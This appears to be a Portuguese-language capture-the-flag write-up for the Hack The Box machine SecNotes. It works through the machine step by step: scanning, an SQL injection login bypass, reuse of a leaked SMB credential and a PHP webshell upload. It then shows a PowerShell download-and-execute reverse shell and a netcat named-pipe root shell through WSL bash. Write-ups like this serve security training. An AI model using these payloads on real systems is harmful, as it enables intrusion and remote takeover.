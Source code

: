```yaml
---
title:     "Hack The Box - SecNotes"
tags: [windows,medium]
categories: HackTheBox
---
```


![1337.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/1337.jpg)


## Enumeration

Usando o autorecon podemos agilizar o processo

```
# Nmap 7.80 scan initiated Tue Jul 14 12:52:55 2020 as: nmap -vv --reason -Pn -A --osscan-guess --version-all -p- -oN /root/HTB-Windows/secnotes/results/10.10.10.97/scans/_full_tcp_nmap.txt -oX /root/HTB-Windows/secnotes/results/10.10.10.97/scans/xml/_full_tcp_nmap.xml 10.10.10.97
Nmap scan report for 10.10.10.97
Host is up, received user-set (0.40s latency).
Scanned at 2020-07-14 12:52:59 EDT for 920s
Not shown: 65532 filtered ports
Reason: 65532 no-responses
PORT     STATE SERVICE      REASON          VERSION
80/tcp   open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp  open  microsoft-ds syn-ack ttl 127 Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.80%E=4%D=7/14%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=5F0DE683%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=109%TI=RD%II=I%TS=U)
SEQ(SP=106%GCD=1%ISR=109%TI=RD%TS=U)
OPS(O1=M54DNW8NNS%O2=M54DNW8NNS%O3=M54DNW8%O4=M54DNW8NNS%O5=M54DNW8NNS%O6=M54DNNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M54DNW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Randomized
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h19m52s, deviation: 4h02m33s, median: -10s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 25086/tcp): CLEAN (Timeout)
|   Check 2 (port 9222/tcp): CLEAN (Timeout)
|   Check 3 (port 53444/udp): CLEAN (Timeout)
|   Check 4 (port 51444/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2020-07-14T10:07:36-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-14T17:07:30
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   366.33 ms 10.10.14.1
2   385.27 ms 10.10.10.97

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 14 13:08:19 2020 -- 1 IP address (1 host up) scanned in 925.90 seconds
```

Temos entao, 3 portas abertas `80 445 8808`

Navegando ate a porta 80 temos uma tela de login

![22.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/22.jpg)

na port 8808 temos um IIS 10 

![33.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/33.jpg)

Comeco entao pela porta 80, criei um user mas nada de interessante.. Entao resolvi tentar tecnicas de SQLI para bypass de auth

***reference***  https://github.com/payloadbox/sql-injection-payload-list

Usando a primeiro payload encontrado na aba `SQL Injection Auth Bypass Payloads` 

```
login: '-' password: 123456
```

Consigo acesso a informacoes com um nivel mais elevado e uma das notas encontro um login 

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/2.jpg)

com essa cred tento entao acesso ao SMB usando crackmapexec 

```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

`crackmapexec smb 10.10.10.97 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&' --shares`

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/3.jpg)

Conseguimos mais algumas informacoes importantes como a versao do windows e um share com permissao de escrite e leitura

Em seguida monto entao esse share no meu kali

***reference*** https://book.hacktricks.xyz/pentesting/pentesting-smb

`mount -t cifs -o username=tyler,password='92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site /mnt/new-site`

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/5.jpg)

Lembra? eu tenho permissao de escrita.. fiz um teste entao escrevendo um arquivo de texto simples e acessando ele na porta 8808 `http://10.10.10.97:8808/anakein.txt` tentei tbm escrever uma webshell bem conhecida Antak

![6.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/6.jpg)

Veja, a webshell nao carregava mais o arquivo de texto sim. 

![7.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/7.jpg)

 de imediato fiquei tentando fazer bypass e usar outras tecnicas mas sem sucesso
 
 ![9.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/9.jpg)

 depois de enviar uma webshell em `.php` tive sucesso
 
 aah. mas antes disso eu observei que o arquivo enviado depois de alguns minutos era apagado...
 
![8.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/8.jpg)
 
 continuandoo..
 
 depois de enviar uma webshell em PHP rapidamente tenho uma webshell ativa...
 
 ***reference*** https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/9377612eeea89aed2b226a870e76ac12965d6694/easy-simple-php-webshell.php
 
 https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985
 
![10.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/10.jpg)

tambem usei isso como referencia https://www.microsoft.com/security/blog/2020/02/04/ghost-in-the-shell-investigating-web-shell-attacks/  

 ## Reverse Shell
 
 com um dos melhores repo que eu conheco o nishang rapidamente tenho uma rev shell em powershell
 
 ***reference*** https://github.com/samratashok/nishang
 
 Primeiro ative o seu web server no repo do nishang, eu sempre uso o modulo do py para agilizar por ele ser simples
 
 `python -m SimplesHTTPServer 80`
 
 em seguida ativo o listener na port `53`
 
 `rlwrap nc -nlvp 53`
 
 e entao na nossa webshell eu executo
 
 ```
 powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.55/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.55 -Port 53
 ```
 
![11.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/11.jpg)

## Get User

![13.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/13.jpg)

## Privilege Escalation

Depois de usar diversas tools de enumeracao para privesc nao tinha sucesso nenhum... comcei entao a investigar o que tinha disponivel no Desktop de tyler, entao achei algo suspeito `bash.lnk`

![14.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/14.jpg)

executando o path direto eu tinha um bash e como sabemos isso trata-se do wsl `Windows Subsystem for Linux`

`C:\Windows\System32\bash.exe --version`

comecei entao a pesquisar termos como `Abusing wsl` e encontrei muito material, um deles que me ajudou bastante foi este PDF http://archive.hack.lu/2018/A_Cervoise-Backdoor_Bash_on_Windows.pdf

Depois de ler o pdf rapidamente tenho uma reverse shell de root 

`C:\Windows\System32\bash.exe -c "mknPS C:\inetpub\new-site>C:\Windows\System32\bash.exe -c "mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc 10.10.14.55 53 1>/tmp/backpipe"`

![15.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-secnotes/15.jpg)




